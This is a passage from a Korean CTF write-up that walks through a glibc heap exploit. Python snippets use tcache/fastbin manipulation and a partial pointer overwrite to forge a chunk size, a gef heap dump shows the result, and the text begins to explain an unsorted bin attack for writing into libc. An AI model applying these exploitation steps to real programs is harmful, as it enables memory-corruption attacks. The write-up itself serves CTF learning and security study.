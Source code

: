 이를 이용해서 fastbin에 `8 -> 9 -> 8` loop를 만든다.
``` python
    # clean tacahe 0x20
    for _ in range(7):
        buy(s, 0x10)
    
    # partially overwrite next_chunk
    buy(s, 0x10)
    edit(s, 8, b"\x40\x96")
```
이후 tcache를 비우기 위해 `buy`를 `7`번 실행하고 한번 더 `buy`를 실행하면 `8`번째 chunk가 반환된다.

이 `8`번째 chunk는 `buy`를 하면서 `size_4160[8]`에 `size`가 저장됐을 것이므로 `edit`이 가능하다.

아직 heap leak을 하지 못했으므로 하위 바이트만 partial overwrite를 해서 확률적으로 heap manipulation이 가능하다.
``` bash
gef➤  heap bins
─────────────────────────────────────── Tcachebins for thread 1 ───────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=3] ←  Chunk(addr=0x555555559b70, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  
                                      ←  Chunk(addr=0x555555559b50, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  
                                      ←  Chunk(addr=0x555555559640, size=0x0, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```
이렇게 `edit`에서 입력한 `\x40\x96`이 chunk의 `next_chunk`를 부분적으로 덮어서 tcache list를 조작할 수 있다.

잘 보면 tacahe list의 마지막에 `0x555555559640`이 오게 되는데 `size`가 `0`이지만 tcache에서 할당 시 `size` 검증을 하지 않아서 조작된 `next_chunk`의 할당이 이루어진다.

생각해보니 heap chunk를 할당할 때 사이즈와 위치를 잘 조절해서 주소를 한 바이트만 overwrite해도 되게 만들면 확률 이슈 없이 exploit이 가능할 것 같긴 하다.
``` python
    # allocate overwritten heap address
    buy(0x10)
    buy(0x10)
    buy(0x10)               # index 11 ; overwritten heap address

    # overwrite chunk size
    edit(s, 11, p64(0) + p64(0x421))
```
위 payload처럼 `3`번째 `buy`를 할 때 partial overwrite를 한 주소가 반환되며, 이를 이용해 heap에 저장된 값을 변경할 수 있다.

### Unsorted bin attack
이후 단계를 진행하기에는 바이너리에 출력하는 부분이 하나도 없어서 leak이 불가능했다.

지금 가지고 있는 것을 생각해보면 주소를 몰라서 그렇지 `next_chunk`을 조작하면 AAW가 가능한 상황이다.

고민을 하다가 앞서 `next_chunk`에 저장된 heap 주소를 partial overwrite한 것처럼 libc 주소가 저장되어 있다면 partial overwrite를 해서 libc 영역에 write를 할 수 있겠다는 생각이 들었다.

`next_chunk`에 libc 주소가 담기게 하는 것은 unsorted bin attack으로 가능한데, chunk를 잘 중첩시켜야 한다.

그림으로 나타내면 다음과 같다.
